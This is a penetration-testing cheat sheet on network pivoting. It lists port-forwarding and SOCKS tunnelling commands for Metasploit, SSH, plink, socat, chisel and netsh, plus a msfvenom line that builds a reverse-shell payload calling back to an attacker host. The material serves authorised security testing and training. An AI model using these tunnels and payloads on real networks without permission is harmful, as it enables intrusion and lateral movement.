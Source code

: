 # Pivoting

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here. &#x20;
{% endhint %}

## PORT FORWARDING ("port to port")

### Using Metasploit

Target: Most platforms

If you get a meterpreter session on a dual homed machine, or one with multiple network interfaces.

```bash
portfwd add -l 4445 -p 4443 -r 10.1.1.1
# Use -R to make it reverse
```

### Using SSH

Target: Linux

**If you already have an SSH session**

Single host port forward

```bash
ssh -R 8081:172.24.0.2:80 # (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
# <KALI 10.1.1.1>:8081<------------<REMOTE 172.16.0.2>:80
# Now you can access 172.16.0.2:80, which you didn't have direct access to
```

Dual host port forward

```bash
ssh -L 8083:127.0.0.1:8084 # (on your machine listen on 8083, send it to my Kali machine on 8084)
# <KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
# run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it on kali

#For reverse shell:
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.123 LPORT=8083 -f exe -o shell
# Run it on 2nd remote target to get a shell on Kali
```

**If you don't already have an SSH session**

First, SSH to your Kali from target machine

On Kali:

```bash
service ssh start 
# "add a user, give it /bin/false in /etc/passwd"
ssh - -R 12345:192.168.1.212:5986 test@10.10.10.123
```

### Using PLINK

Target: Windows&#x20;

service ssh start , and transfer `/usr/share/windows-binaries/plink.exe` to the target machine

```bash
#On Target: 
plink.exe 10.10.10.123 -P 22 -C -N -L 0.0.0.0:4445:10.10.10.123:4443 -l $KALIUSER -pw $PASS
```

### Using SOCAT

Target: Linux

Forward your 8083 to 10.39.0.2:443

```bash
./socat TCP4-LISTEN:8083,fork TCP4:10.39.0.2:443
```

### Using CHISEL

Target: Most platforms

Remote static tunnels "port to port":

```bash
#On Kali "reverse proxy listener":
./chisel server -p 8000 -reverse

#General command:
./chisel client $YOUR_IP:$YOUR_CHISEL_SERVER_PORT L/R:[$YOUR_LOCAL_IP]:$TUNNEL_LISTENING_PORT:$TUNNEL_TARGET:$TUNNEL_PORT
```

**Remote tunnels "access IP:PORT you couldn't access before":**

```bash
#On Target:
./chisel client 10.1.1.1:8000 R:127.0.0.1:8001:172.19.0.3:80
```

**Local tunnels "listen on the target for something, and send it to us":**

```bash
#On Target:
./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003
```

## Using netsh

Target: Windows

```bash
#Add a port forward
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=9000 connectaddress=192.168.0.10 connectport=80
#Remove it
netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=9000
```

## DYNAMIC Port Forwarding ("one port to any")

* setup proxychains with socks5 on 127.0.0.1:1080
  * Or set up socks5 proxy on firefox
* For nmap use -Pn -sT or use tcp scanner in msf

### Using Metasploit

Target: Most platforms

* If you get a meterpreter session on a dual homed machine, or one with multiple network interfaces.
* Auto route to IP (multi/manage/autoroute)
* Start socks proxy (auxiliary/server/socks4a)

### Using SSH

Target: Linux

```
ssh -i bobs.key -p 2222 bob@10.10.10.123 -D1080
```

### Using PLINK

Target: Windows

```bash
#On Target: 
plink.exe 10.10.10.123 -P 22 -C -N -D 1080 -l $KALIUSER -pw $PASS
```

### Using CHISEL

Target: Most platforms

```bash
#On Kali:
./chisel server -p 8000 -reverse

#On Target:
./chisel client 10.10.10.123:8000 R:8001:127.0.0.1:1080
./chisel server -p 8001 --socks5

#On Kali:
./chisel client 127.0.0.1:8001 socks
```

##
